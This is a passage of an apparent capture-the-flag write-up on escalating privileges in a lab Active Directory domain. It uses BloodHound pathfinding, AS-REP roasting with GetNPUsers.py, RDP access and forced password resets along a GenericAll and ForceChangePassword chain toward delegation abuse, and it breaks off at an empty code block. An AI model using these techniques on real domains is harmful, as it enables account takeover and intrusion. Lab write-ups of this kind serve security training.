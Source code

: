 __By redoing the machine, bloodhound does not allow it to be opened with problems from the docker itself even though everything had gone well the time before__

We can select `Pathfinding` and we select every user with flag `DONT_REQ_PREAUTH` to `Administrator` and we can an interestin information:

`TABATHA_BRITT has generic_all to SHAWNA_BRAY in turn she has forcechangepassword to CRUZ_HALL in turn he has generic_write to DARLA_WiNTERS that she has TRUSTED_TO_AUTH_FOR_DELEGATION more specific Constrained Delegation with protocol`

### Privesc:

We can use this situation to our advantage, first we retrieve TABATHA_BRITTs' hash and then with a simple move we can change the passwords of SHAWNA_BRAY, CRUZ_HALL and DARLA_WINTERS users finally with the delegation we can impersonate the administrator so:

First we retrieve TABATHA's hash:
```bash
GetNPUsers.py thm.corp/AUTOMATE 

Name           MemberOf                                                      PasswordLastSet             LastLogon                   UAC      
-------------  ------------------------------------------------------------  --------------------------  --------------------------  --------
ERNESTO_SILVA  CN=Gu-gerardway-distlist1,OU=AWS,OU=Stage,DC=thm,DC=corp      2023-07-18 18:21:44.224354  <never>                     0x410200 
TABATHA_BRITT  CN=Gu-gerardway-distlist1,OU=AWS,OU=Stage,DC=thm,DC=corp      2023-08-21 22:32:59.571306  2023-08-21 22:32:05.792734  0x410200 
LEANN_LONG     CN=CH-ecu-distlist1,OU=Groups,OU=OGC,OU=Stage,DC=thm,DC=corp  2023-07-18 18:21:44.161807  2023-06-16 14:16:11.147334  0x410200
```
We can now retrieve TABATHA:
```bash
GetNPUsers.py 'thm.corp/TABATHA_BRITT' -no-pass
```
![tab](./pics/tab.png)

We enter via RDP with the following command:
```bash
xfreerdp /v:10.10.250.218 /u:TABATHA_BRITT /p:'<REDACTED>' /dynamic-resolution
```
We open powershell and prompt this command:
```powershell
$Password = ConvertTo-SecureString "<new_password" -AsPlainText -Force
Set-ADAccountPassword -Identity "SHAWNA_BRAY" -Reset -NewPassword $Password
```
If we use another time RDP we can enter with SHAWNA_BRAY:
```bash
xfreerdp /v:10.10.250.218 /u:SHAWNA_BRAY /p:'<REDACTED>'/dynamic-resolution
```
We can do the same steps go as far as to reach DARLA_WiNTERS' user indeed after gain the access to DARLA_WiNTERS first we enumerate the delegation:
```bash
```